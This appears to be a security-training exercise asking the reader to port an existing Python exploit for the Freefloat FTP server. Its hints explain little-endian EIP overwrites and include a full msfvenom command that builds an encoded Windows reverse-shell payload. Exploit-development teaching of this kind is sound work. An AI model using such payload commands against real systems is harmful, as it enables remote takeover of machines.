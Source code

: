 # Exercise 5 - Porting an exploit

Port an existing exploit (written in python) for the Freefloat FTP server. The initial code is located here: https://gist.github.com/dgiampouris/daac071709ea9b83aadfe69b45ed9827 

Hints: 

- The x86 architecture has little-endian byte ordering. This affects how memory addresses are stored in EIP. 

- Use msfvenom to generate a payload (e.g. msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -b "\x00\x0d\x0a" EXITFUNC=thread -f csharp ) 

- The above command should be sufficient 

- The csharp format is used because it is convenient for go as well. 

- Try to follow the logic of the python exploit as closely as possible. 

